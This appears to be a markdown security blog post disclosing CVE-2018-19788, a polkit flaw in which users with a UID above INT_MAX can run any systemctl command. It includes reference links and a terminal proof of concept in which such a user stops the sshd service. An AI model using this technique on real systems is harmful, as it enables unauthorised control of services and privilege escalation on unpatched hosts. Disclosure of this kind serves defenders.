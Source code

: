 ```yaml
---
layout: post
title: Critical vulnerability on policykit of systemd
category: security
description: unprivileged users with UID can successfully execute any systemctl command
---
```


**[CVE-2018-19788]**: A flaw was found in PolicyKit (aka `polkit 0.115`) that allows a user with a uid greater than `INT_MAX` to successfully execute any `systemctl` command.
* [https://github.com/systemd/systemd/issues/11026](https://github.com/systemd/systemd/issues/11026)
* [https://github.com/freedesktop/polkit/blob/8c1bc8a/src/programs/pkttyagent.c#L156](https://github.com/freedesktop/polkit/blob/8c1bc8a/src/programs/pkttyagent.c#L156)
* [https://gitlab.freedesktop.org/polkit/polkit/issues/74](https://gitlab.freedesktop.org/polkit/polkit/issues/74)

Find out more about CVE-2018-19788 from the [MITRE CVE](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-19788) dictionary and [NIST NVD](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2018-19788)

```
root@ahihi:~# useradd -u 4000000000 wtf
root@ahihi:~# su - wtf
No directory, logging in with HOME=/

$ whoami
wtf
$ id
uid=4000000000(wtf) gid=1002(wtf) groups=1002(wtf)

$ systemctl stop sshd.service

(process:22860): GLib-GObject-WARNING **: value "-294967296" of type 'gint' is invalid or out of range for property 'uid' of type 'gint'
**
ERROR:pkttyagent.c:175:main: assertion failed: (polkit_unix_process_get_uid (POLKIT_UNIX_PROCESS (subject)) >= 0)

root@ahihi:~# systemctl status sshd.service
...
Dec 05 15:38:39 ahihi systemd[1]: Stopping OpenBSD Secure Shell server...
Dec 05 15:38:39 ahihi systemd[1]: Stopped OpenBSD Secure Shell server.
```

<!--description-->
